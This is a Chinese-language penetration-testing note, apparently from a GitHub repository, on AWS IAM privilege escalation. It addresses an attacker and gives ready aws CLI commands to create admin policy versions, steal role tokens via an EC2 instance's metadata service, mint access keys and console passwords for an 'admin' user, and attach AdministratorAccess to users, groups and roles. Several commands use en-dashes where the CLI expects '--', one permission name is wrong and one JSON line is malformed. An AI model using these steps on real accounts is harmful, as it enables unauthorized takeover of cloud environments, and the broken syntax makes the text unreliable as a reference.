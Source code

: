 	影子管理员Shadow Admin
	一旦您有权访问云用户，您需要查看是否可以升级您的权限。 在云中，权限提升是通过 IAM 完成的，通常是由具有某些权限集的用户引起的。 在 AWS 中，有 21 个公知的 IAM 权限可用于提权。
	● https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/
  #### iam:CreatePolicyVersion
	iam:CreatePolicyVersion 权限允许用户创建现有策略的新版本,如果您的用户附加了策略，您可以将“操作”更改为“*”，将“资源”更改为“*”，这样您就可以访问所有内容
	如：
	"Action": "iam:CreatePolicyVersion" 改为"Action": "iam:*"
	"Resource": "arn:aws:iam::*:policy/*"改为"Resource": "*"
	最后，您可以使用以下命令更新您的策略，为您提供管理员级别的访问权限：
> aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/administrator/policy.json –set-as-default
  #### iam:SetDefaultPolicyVersion2
	如果管理员不小心赋予了策略过多的权限，他们可能会使用权限较少的版本更新策略。具有 iam:SetDefaultPolicyVersion2 的用户可以选择哪个版本的策略处于活动状态。这允许用户通过激活具有更高权限的旧版本策略来潜在地提升他们的权限。例如，如果策略的版本 1 具有比版本 2 更高的权限，我们可以将策略回滚到版本 1，从而为该用户提供更高的权限，如下所示
	> aws iam set-default-policy-version --policy-arn arn:aws:iam::1231124:policy/VulnerablePolicy --version-id v1
  #### iam:PassRole and ec2:RunInstances
	如果用户具有 PassRole 和 RunInstances 权限，他们可以将权限提升到另一个角色。 PassRole 权限允许用户将角色传递给另一个 AWS 资源。请记住，角色可以被认为是机器等资源可以使用的用户，并且具有自己的权限集。接下来，RuneInstances 权限允许我们运行资源，特别是虚拟机 AKA EC2 实例。
	"Action":["iam:PassRole","ec2":RunInstances] 
	首先，您需要找到一个您也想升级的角色。 获得目标角色后，您需要启动一个附加了目标角色的 EC2 实例。 最后通过 SSH 进入 EC2 实例并查询元数据服务以窃取目标的 AWS 令牌。 使用以下命令创建附加了目标角色“admin”的 EC2 实例：
	> aws ec2 run-instances --image-id ami-1de55d875628d2fe0 --instance-type t2.micro --iam-instance-profile Name=admin --key-name "Public" --security-group-ids sg-c91s2ae8 --region us-east-1
	实例启动可能需要几分钟时间，但一旦启动，您可以 SSH 进入并点击元数据服务
  #### iam: CreateAccessKey
	iam:CreateAccessKey 权限可用于为其他用户创建访问密钥。访问密钥充当凭据，可用于以用户身份发出命令。
	如果策略的资源部分设置为“*”，同时拥有此权限集，我们实际上可能会危及环境中的每个用户。
	> aws iam create-access-key --user-name admin
	如上所示，我们为管理员用户创建了一个访问密钥。我们所要做的就是导入访问密钥，我们就可以开始了。
  #### iam:CreateLoginProfile 
	iam:CreateLoginProfile 权限用于为尚未设置控制台密码的用户创建控制台密码。拥有此权限使攻击者能够
	为目标创建一个密码，该密码可用于通过控制台登录。
	> aws iam create-login-profile --user-name admin --password Password123！ --no-password-reset-required
  #### iam:UpdateLoginProfile
	与 iam:CreateLoginProfile 类似，iam:UpdateLoginProfile 允许我们为用户设置控制台密码。唯一的区别是用户必须已经设置了控制台密码。
	> aws iam update-login-profile --user-name admin --password Password234！ --no-password-reset-required
  #### iam:AttachUserPolicy
	iam:AttachUserPolicy 权限使用户能够将策略附加到用户。如果将此权限附加到您的用户，您可能会将 AWS 托管 AdministratorAccess 策略附加到您的帐户，从而为您提供对云环境的管理员权限。
	> aws iam attach-user-policy --user-name target_username --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
  #### iam:AttachGroupPolicy
	iam:AttachGroupPolicy 权限的工作方式与 iam:AttachUserPolicy 相同，只是您将策略附加到组而不是用户。只需确保您是您附加该策略的组的一部分。
	> aws iam attach-group-policy --group-name target_group --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
  #### iam:AttachRolePolicy
	iam:AttachRolePolicy 权限的工作方式与 iam:AttachUserPolicy 和 iam:AttachGroupPolicy 相同，只是您将策略附加到角色。只需确保您的用户能够模拟该角色即可。
	> aws iam attach-role-policy --role-name target_role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
  #### iam:PutUserPolicy
	此权限允许您创建或更新内联策略。如果设置了此权限，攻击者可以利用它添加具有访问管理员级别访问权限的策略，如下所示：
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/907.png)

	接下来使用以下命令将其作为内联策略添加到目标用户。 执行后，该用户应具有对云环境的管理员级别访问权限
	> aws iam put-user-policy –user-name TARGET_USER –policy-name my_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
  #### iam:PutGroupPolicy
	此策略与 iam:PutUserPolicy 权限非常相似，只是它允许您将内联策略添加/更新到组而不是用户。同样，您需要创建一个具有管理员级别访问权限的策略，并将其作为内联策略添加到您的用户有权访问的组中。
	> aws iam put-group-policy –group-name GROUP_NAME –policy-name group_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
  #### iam:PutRolePolicy
	同样，此权限与 iam:PutUserPolicy 和 iam:PutGroupPolicy 非常相似。唯一的区别是这使您可以添加/更新角色的内联策略。创建一个管理员级别的策略并将其添加到您可以担任的角色中。
	> aws iam put-role-policy –role-name ROLE_NAME –policy-name role_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
  #### iam:AddUserToGroup
	此角色允许您将用户添加到组。攻击者可以通过将其用户添加到具有更高权限的组来滥用这一点。如果有一个具有管理员级别权限的组，请尝试将您的用户添加到其中，如果成功，您的用户也应该具有管理员级别权限。
	> aws iam add-user-to-group –group-name GROUP_NAME –user-name USER_NAME